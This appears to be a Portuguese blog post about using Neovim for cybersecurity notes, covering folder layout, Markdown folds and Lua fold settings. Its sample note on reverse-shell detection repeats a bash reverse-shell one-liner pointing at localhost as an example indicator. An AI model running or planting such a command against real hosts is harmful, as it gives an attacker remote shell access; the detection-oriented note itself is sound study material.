


# 🧠 Usando Neovim para Anotações em Cybersecurity (Não Só para Código)

Enquanto estudava cybersecurity, percebi algo simples, mas poderoso:

> Fazer boas anotações é tão importante quanto rodar ferramentas.

Em vez de usar apps tradicionais de notas, comecei a usar o Neovim como minha **base de conhecimento diária** — e isso mudou completamente a forma como aprendo e organizo informações.

Ainda uso muito o Obsidian, mas quero mostrar uma opção simples.

---

## 💡 Por que usar Neovim para anotações?

A maioria das pessoas associa o Neovim apenas com programação, mas para cybersec ele se torna:

* ⚡ Rápido (sem overhead de interface gráfica)
* 🧠 Totalmente orientado ao teclado (sem distrações)
* 🔍 Perfeito para pensamento estruturado
* 🛠️ Altamente customizável

---

## 🔥 Minha ideia de setup

Montei um fluxo simples:

* Notas em Markdown
* Organização por tópicos (ex: `recon/`, `web/`, `linux/`)
* Acesso rápido via keymaps
* Busca instantânea em tudo

---

## 📂 Estrutura de exemplo

```bash
notes/
├── recon/
│   └── nmap.md
├── web/
│   └── xss.md
└── linux/
    └── privilege_escalation.md
```

---

## ✍️ Exemplo de anotação (Simples e prática)

```markdown
# Reverse Shell Detection

## Indicators
- Outbound connection from shell
- STDIO redirection (dup2)
- Suspicious process (bash, sh, python)

## Example
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1

## Detection Idea
- Monitor syscalls:
  - socket()
  - connect()
  - dup2()
  - execve()

## Notes
This behavior is common in reverse shells.
Can be detected with eBPF (bpftrace).
```

---

## 🧩 Destaque: Uso de Folds no Neovim

Uma das coisas mais poderosas no Neovim para anotações é o uso de **folds (dobras)** — que permitem esconder e expandir partes do conteúdo.

Isso é perfeito para:

* esconder detalhes técnicos
* focar só no que importa no momento
* navegar rapidamente por notas grandes

### 📌 Exemplo usando Markdown (fold por headings)




```markdown
# Reverse Shell Detection

## Indicators
- Outbound connection from shell
- STDIO redirection (dup2)

## Example
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1

## Detection Idea
- Monitor syscalls
```

Com `foldmethod=expr` ou `foldmethod=syntax`, você pode dobrar automaticamente por seções (`##`).

---

### ⚙️ Configuração básica de fold

```lua
vim.opt.foldmethod = "expr"
vim.opt.foldexpr = "nvim_treesitter#foldexpr()"
vim.opt.foldlevel = 99
```

---

### Exemplo de uso:




### ⌨️ Comandos úteis de fold

* `za` → abre/fecha fold
* `zR` → abre todos os folds
* `zM` → fecha todos os folds
* `zc` → fecha fold atual
* `zo` → abre fold atual

---

### 💡 Exemplo prático com fold manual

```markdown
# Reverse Shell Detection

## Indicators
{{{
- Outbound connection from shell
- STDIO redirection (dup2)
- Suspicious process
}}}

## Example
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

---

## 🚀 Por que isso importa em Cybersecurity

Em cybersec, você lida constantemente com:

* comandos
* payloads
* indicadores
* padrões

Ter tudo no Neovim permite:

* 🔎 buscar todo seu conhecimento instantaneamente
* ⚡ reutilizar comandos rapidamente
* 🧠 reforçar aprendizado escrevendo

---

## 🧠 Insight

Ferramentas como o Neovim não são apenas para código.

Elas podem se tornar:

> seu sistema pessoal de conhecimento como profissional de cybersecurity

---

## 📌 Pensamento final

Em cybersecurity:

> A diferença entre saber e lembrar é documentação.

E o Neovim torna esse processo rápido, limpo e poderoso.

